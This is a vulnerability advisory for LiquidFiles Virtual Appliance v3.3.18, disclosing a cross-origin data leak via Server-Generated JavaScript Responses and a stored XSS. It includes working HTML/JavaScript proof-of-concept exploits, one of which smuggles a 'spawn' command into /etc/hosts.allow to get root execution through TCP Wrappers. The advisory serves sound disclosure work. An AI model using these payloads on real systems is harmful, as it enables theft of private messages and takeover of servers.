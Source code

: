 # Advisory Information
* Title: LiquidFiles Virtual Appliance Multiple Vulnerabilities
* Release mode: Coordinated disclosure
* Date published: 2020-08-05
* Class: CWE-79
* CVE IDs: CVE-2020-29071, CVE-2020-29072
* Remotely exploitable: Yes (Client-Side)
* Locally exploitable: Yes (Client-Side)

# Vulnerability Description
LiquidFiles [^1] is a Virtual Appliance that helps Companies and Organizations Send, Receive & Share Large Files, Fast & Securely.

Vulnerabilities were found in LiquidFiles V.A. which exploit the way it renders user content. Targeting a logged-in user would allow malicious users to perform client-side attacks. The impact of this ranges from executing commands as root on the server to retrieving sensitive information about encrypted e-mails, depending on the permissions of the user targeted. It should be noted that client-side interaction is mandatory for these attacks to succeed (e.g. accessing an attacker-controlled website).

# Vendor Information, Solutions and Workarounds
* The vendor issued an update to address both issues described in this advisory. Please update to LiquidFiles Virtual Appliance v3.3.19 or higher. For more information visit https://man.liquidfiles.com/release_notes/version_3-3-x.html.

# Vulnerable packages
* LiquidFiles Virtual Appliance v3.3.18. Previous versions were not tested.

# Credits
This vulnerability was discovered and researched by Leandro Barragan.

# Technical Description / Proof of Concept Code

## E-mail content leakage via Server-Generated Javascript Responses
[[CVE-2020-29072]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29072) Several endpoints were found to be using a pattern called "Server-Generated Javascript Responses". This pattern, commonly used on Rails applications, allows the application to bypass cross-origin protections by returning data in form of Javascript code, in a similar fashion to the more prevalent JSONP technique.

For example, the following URL returns all the sent e-mails: `https://server/messages/sent?format=js`

```js
$("#messages").html('<thead>\n  <tr>\n    <th>ID<\/th>\n    <th><a href=\"/messages/sent?direction=asc&amp;sort=recipients\">Recipients<\/a><\/th>\n    <th><a href=\"/messages/sent?direction=asc&amp;sort=subject\">Subject<\/a><\/th>\n    <th>Filename<\/th>\n    <th><a href=\"/messages/sent?direction=asc&amp;sort=size\">Size<\/a><\/th>\n    <th><a class=\"current desc\" href=\"/messages/sent?direction=asc&amp;sort=messages.created_at\">Sent<\/a><\/th>\n    <th><a href=\"/messages/sent?direction=asc&amp;sort=messages.expires_at\">Expires<\/a><\/th>\n    <th class=\"center\"><a href=\"/messages/sent?direction=asc&amp;sort=downloads\">Downloads<\/a><\/th>\n    <th>Action<\/th>\n  <\/tr>\n<\/thead>\n<tbody>\n  <tr>\n  <td class=\"id-column\">fFAfVtDezDDAbhEjhlXGuE<\/td>\n  <td class=\"recipients_column\">xxxxx@gmail.com<\/td>\n  <td class=\"subject_column\">Test<\/td>\n  <td class=\"download_column wrap\"><\/td>\n  <td class=\"nowrap\">0 Bytes<\/td>\n\n  <td class=\"expires_column nowrap\">12 Dec, 2019 18:14<\/td>\n  <td class=\"expires_column nowrap\">11 Jan, 2020<\/td>\n  <td class=\"downloads_column center\">\n      0\n  <\/td>\n  <td class=\"actions_column nowrap\">\n    <ul class=\"nav nav-pills\">\n      <li class=\"dropdown\"><a class=\"dropdown-toggle\" data-toggle=\"dropdown\" href=\"#\"><b class=\"caret\"><\/b><\/a>\n        <ul class=\"dropdown-menu dropdown-menu-right\">\n          <li><a data-toggle=\"modal\" data-target=\"#message_modal\" data-cache=\"false\" href=\"/message/fFAfVtDezDDAbhEjhlXGuE/popup\">View Message (Popup)<\/a><\/li>\n          <li><a href=\"/message/fFAfVtDezDDAbhEjhlXGuE\">View Message<\/a><\/li> [...SNIPPED...]
```

An attacker could embed that endpoint in its own website in order to access the information about the encrypted messages a user sent in the past:

```html
<html>
<head><script src="https://code.jquery.com/jquery-3.4.1.js"></script></head>
  <body>
    <div id="messages" class="messages"></div>
    <script src="https://server/messages/sent?format=js"></script>
  </body>
</html>
```

After obtaining the IDs of the sent messages, its contents can also be disclosed by including the following URL: `https://server/message/<ID>/popup?format=js`

This issue is not limited to the previously mentioned endpoints, approximately 109 ERB views were found to be vulnerable to this issue.

## Cross-Site Scripting via Rendering of Uploaded Files
[[CVE-2020-29071]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29071) A Cross-Site Scripting issue was found which can be exploited by uploading HTML files using the "Shares" feature.

When viewing uploaded files using the UI, documents are embedded using iframes with the "sandbox" attribute set. This prevents any malicious Javascript code from being executed. However, accessing the file directly using the generated URL would render the file inline in the context of the web application's origin:

- `https://server/shares/<SHARE_NAME>/folders/root/files/<FILENAME>-htmlview/<FILENAME>`

Leveraging this behavior, it is possible to obtain code execution as root on the appliance by targeting users with "Sysadmin" privileges. LiquidFiles offers a way to set a password in order to log into the appliance via SSH. This password can only be set on the first login, and then it can not be changed using the web interface. Given that this is not always the case, this option is nonideal.

Another method exists to achieve code execution. The "Access Control" setting on the UI embeds the user input verbatim on `/etc/hosts.allow`. By leveraging TCP Wrappers ability to execute commands, an attacker can send a specially crafted "Allowed Hosts" list which would execute arbitrary commands as root after any other user tries to connect to the SSH Daemon running on the server. A proof of concept document for this is provided below:

```html
<html>
<body>
  <script type="application/javascript">
    command = '/usr/bin/touch /tmp/sarasa'
    system_console_url = '/system/console';

    function get_csrf_token(html_content) {
      var doc = document.implementation.createHTMLDocument();
      doc.body.innerHTML = html_content;
      csrf_token = doc.getElementsByName('csrf-token')[0].getAttribute('content');
    }

    function send_commands_to_execute() {
      var payload = "ALL: spawn (" + command + ") &";
      fetch(system_console_url + "/access", {
         credentials: 'include',
         method: 'POST',
         headers: { 'Content-Type': 'application/x-www-form-urlencoded'},
         body: 'utf8=%E2%9C%93&authenticity_token=' + encodeURIComponent(csrf_token) +
          '&commit=Save' + '&hosts_allow=' + encodeURIComponent(payload)
      }).then((response)=>{ console.log("attack successful")})
    }

    fetch(system_console_url).then((resp)=>{ return resp.text() })
      .then((text)=>{ get_csrf_token(text) })
      .then((text)=>{ send_commands_to_execute() });
  </script>
</body>
</html>
```

# Report Timeline
* 2019-12-19: Initial contact to the vendor
* 2019-12-23: Draft advisory sent to the vendor using its helpdesk platform
* 2019-12-24: A fix was issued by the vendor and confirmed by the reporter
* 2020-08-05: Published advisory
* 2020-11-23: Requested CVE numbers to MITRE
* 2020-11-24: MITRE assigned CVE-2020-29071, CVE-2020-29072

# References

[^1]: https://www.liquidfiles.com/
[^2]: https://man.liquidfiles.com/release_notes/version_3-3-x.html